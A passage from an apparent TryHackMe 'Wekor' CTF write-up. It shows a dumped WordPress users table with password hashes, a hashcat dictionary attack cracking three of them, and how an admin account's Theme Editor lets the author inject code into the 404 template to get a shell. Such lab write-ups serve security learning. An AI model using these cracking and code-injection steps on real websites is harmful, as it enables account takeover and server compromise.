 ```bash
| 1    | http://site.wekor.thm/wordpress | $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. | admin@wekor.thm   | admin      | 0           | admin        | admin         | 2021-01-21 20:33:37 | 1624795046:$P$BiqkI23.U1PxXdXI1bEOM98yW.954h1 |
| 5743 | http://jeffrey.com              | $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 | jeffrey@wekor.thm | wp_jeffrey | 0           | wp jeffrey   | wp_jeffrey    | 2021-01-21 20:34:50 | 1611261290:$P$BufzJsT0fhM94swehg1bpDVTupoxPE0 |
| 5773 | http://yura.com                 | $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ | yura@wekor.thm    | wp_yura    | 0           | wp yura      | wp_yura       | 2021-01-21 20:35:27 | <blank>                                       |
| 5873 | http://eagle.com                | $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ | eagle@wekor.thm   | wp_eagle   | 0           | wp eagle     | wp_eagle      | 2021-01-21 20:36:11 | <blank>                                       |
+------+---------------------------------+------------------------------------+-------------------+------------+-------------+--------------+---------------+---------------------+-----------------------------------------------+
```

There was four users in the table. I used hashcat to crack their passwords.

```bash
ehogue@kali:~/Kali/OnlineCTFs/TryHackMe/Wekor$ hashcat -a 0 -m 400 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
... 

Host memory required for this attack: 64 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10:REDACTED
$P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/:REDACTED
$P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/:REDACTED
```

It failed to crack the password for admin, but got it for the other three users. I connected to the site with their credentials. The user wp_yura was admin in the site. 

Getting a shell when you have an admin account on Wordpress is very easy. Admins in Wordpress have access to the Theme Editor. This allow them to modify how the site looks. Many files that are editable are PHP files. So admins can run any code they want on a Wordpress site. They just need to modify a PHP file, save it, and navigate to a page that include that file. 

I usually inject my code in the [404 template]( http://site.wekor.thm/wordpress/wp-admin/theme-editor.php?file=404.php&theme=twentytwentyone). 
